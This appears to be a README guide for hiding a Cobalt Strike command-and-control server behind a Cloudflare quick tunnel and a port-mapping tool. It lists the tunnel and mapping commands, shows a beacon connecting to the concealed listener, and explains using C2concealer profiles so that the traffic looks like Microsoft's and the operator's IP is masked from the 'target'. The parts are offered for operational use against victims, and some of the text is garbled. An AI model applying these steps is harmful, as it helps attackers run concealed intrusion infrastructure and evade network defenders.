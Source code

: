 // macOS

```
$ brew install cloudflare/cloudflare/cloudflared
```

```
cloudflared tunnel --url 127.0.0.1:31337
```

cloudflare has now completed the assignment of our private cobalt strike tunnel; ( https://assisted-same -*******.trycloudflare.com ); let's map our inner port to catch the target;

```
./ding -config=./ding.cfg -subdomain=r1z 31337
```

bing for windows/linux/mac OS

```
https://github.com/open-dingtalk/pierced/tree/master/linux
```

now the important part; what we did here with the cloudflare listener, we need to do with your ding or any alternative mapping tool; let's get the cloudflare address and prepare our tunnel;


now configure our listener for the cloudflared IP address and our internal port 31337

<h2 align="center"></h2>
<img src="https://github.com/EvilGreys/Hide-CobaltStrike/blob/main/img/listener_cloudflared.png" 
<p align="center">

Let's connect our beacon to the network!

<h2 align="center"></h2>
<img src="https://github.com/EvilGreys/Hide-CobaltStrike/blob/main/img/generate.png" 
<p align="center">

Online!

<h2 align="center"></h2>
<img src="https://github.com/EvilGreys/Hide-CobaltStrike/blob/main/img/connect.png" 
<p align="center">

Now don't forget that our beacon is combined between the cloudflare tunnel & C2concealer profile (Microsoft) where it will show the client our IP address located in cloudflare, and the wireshark tunnel shows microsoft; to prepare the C2concealer profile in the east, as far as you can imagine;

just follow the repo here https://github.com/FortyNorthSecurity/C2concealer or run the following commands;

C2 concealer is a python 3 command line tool that creates flexible c2 profiles for use with Cobalt Strike, Do you want to get up and running fast?

Usage Example :

```
Usage:
$ c2concealer --hostname google.com --variant 3

Flags:

(optional)
--hostname
The hostname used in HTTP client and server side settings. Default is None.
--variant
An integer defining the number of HTTP client/server variants to generate. Recommend between 1 and 5. Max 10.
```
